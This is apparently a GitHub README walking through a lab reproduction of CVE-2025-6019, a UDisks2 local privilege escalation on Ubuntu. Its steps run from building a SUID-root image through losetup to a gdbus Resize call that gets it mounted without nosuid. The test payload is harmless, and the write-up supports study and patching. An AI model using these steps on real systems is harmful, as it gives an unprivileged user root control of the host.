


# CVE-2025-6019 – UDisks2 ResizeFilesystem Vulnerability (Educational Reproduction)
This repository documents an educational reproduction of CVE-2025-6019
performed in a controlled lab environment (Ubuntu VM, non-production).
## 🛡️ Security Notice
This research reproduces CVE-2025-6019 in a sandboxed Ubuntu environment 
to analyze the root cause and mitigation of the UDisks2 vulnerability.  
All results are shared responsibly and aim to support awareness and patch adoption.  
If you are a vendor or maintainer, please ensure your system has the latest security updates.

# Introduction
This CVE vulnerability is a kind of Local Priviledge Escalation in Linux system that rises from insufficiently coordinated interactions among Linux filesystem management components which are udisk/udisk2, libblockdev and Polkit in this case. This bug allows a local user (non-privileged attacker) to mount a malicious filessystem image containing files owned by root with the SUID bit set, execute a SUID-root binary from that image, and finally gain full control of the host.



# How to exploit
## Step 1: Enviroment setup
This exploitation is conducted on Ubuntu 20.04.6 virtual machine.  
All tests are executed in an isolated local VM, and no network connection or destructive payloads are used. The goal is purely to observe privilege changes and verify the vulnerability under safe conditions.
### Clone this repository, make sure you have check_root.c and exploit_helper.sh files
```
~$ gcc check_root.c -o check_root
```
### Checking udisk2 and libblockdev version:
```
~$ dpkg -l | grep libblockdev
~$ dpkg -l | grep udisk
~$ sudo apt install -y build-essential xfsprogs 
# Expected result: libblockdev version 2.23-2ubuntu3 and udisk2 version 2.8.4-1ubuntu2  
```

## Step 2: Payload preparation (attacker machine)
Notice that the goal is not to create a destructive program. 
check_root.c is a harmless test program that only prints its real UID and effective UID when executed (by getuid() & geteuid() function) but if we replace  by a malicious binary, the system could be damaged

### Create image file:
```
~$ dd if=/dev/zero of=malicious_xfs.img bs=1M count=16
~$ sudo mkfs.xfs malicious_xfs.img
```
### Copy checkroot.c to image and provide SUID flag:
```
~$ mkdir /tmp/xfs_mnt
~$ sudo mount -o loop malicious_xfs.img /tmp/xfs_mnt
~$ sudo cp check_root /tmp/xfs_mnt/
~$ sudo chmod 4755 /tmp/xfs_mnt/check_root
~$ sudo umount /tmp/xfs_mnt
~$ rmdir /tmp/xfs_mnt
~$ mount | grep malicious  
# Expected: no result return.
```
If you see the image is still mounted, unmount it. After this stage, we have a malicious image that contains malicious file (checkroot.c), with SUID flag and root owner in metadata.  
Note that this netadata is kept consistent while copying file among Linux machine, and Linux protected by “nosuid”, which is not going to be affected in this scenario.  
## Step 3: Exploitation (on target machine)
This step will map the image in to the target machine and then excuting the malicious file inside, this action is similar to plugging the malicious USB into Linux machine.
```
~$ losetup
# Check which /dev/loop* devices are in use and create a newone and mount with the malicious image creted in the Stage 2. For example, if you see /dev/loop1-8, create /dev/loop9:
~$ sudo losetup /dev/loop9 malicious_xfs.img
~$ LOOP_DEVICE="/dev/loop9"
~$ OBJECT_PATH="/org/freedesktop/UDisks2/block_devices/$(basename \  $LOOP_DEVICE)"
~$ Echo $OBJECT_PATH
#Expected: /org/freedesktop/UDisks2/block_devices/loop9
Precheck: 
~$ cat /proc/mounts | grep "$LOOP_DEVICE" | grep 'xfs' | awk '{print $2}'
#expected: No results returns
```
### Excute exploitation_helper file:
```
~$ chmod +x exploit_helper.sh
~$ ./exploit_helper.sh
```

Open a second terminal and send a D-Bus request that asks the system (UDisks2) to resize the presented block device.
```
~$ LOOP_DEVICE="/dev/loop9"
~$ OBJECT_PATH="/org/freedesktop/UDisks2/block_devices/$(basename \ $LOOP_DEVICE)"
~$ echo $OBJECT_PATH
#Expected: /org/freedesktop/UDisks2/block_devices/loop9
~$ gdbus call --system --dest org.freedesktop.UDisks2 --object-path \ /org/freedesktop/UDisks2/block_devices/loop9 --method \ org.freedesktop.UDisks2.Filesystem.Resize -t 10 "uint64 0" "{}"
```

### Checking the exploitation termimal: Success


Why success: When the image was mapped manually with losetup and then mounted manually (even on a system where udisksd is present), the mount was performed under a different context with different options and lifecycle semantics. In this scenario the filesystem was not mounted with the same udisksd-applied safety flags, so the setuid binary inside the image could take effect and the exploitation step succeeded. 
## Ubuntu Security Team has already released patched versions of UDisks2 addressing CVE-2025-6019.
> ⚠️ **Disclaimer**  
> This repository is for educational use only.  
> Do not use any part of this content to attack or modify real systems.  
> The author and contributors assume no liability for misuse.
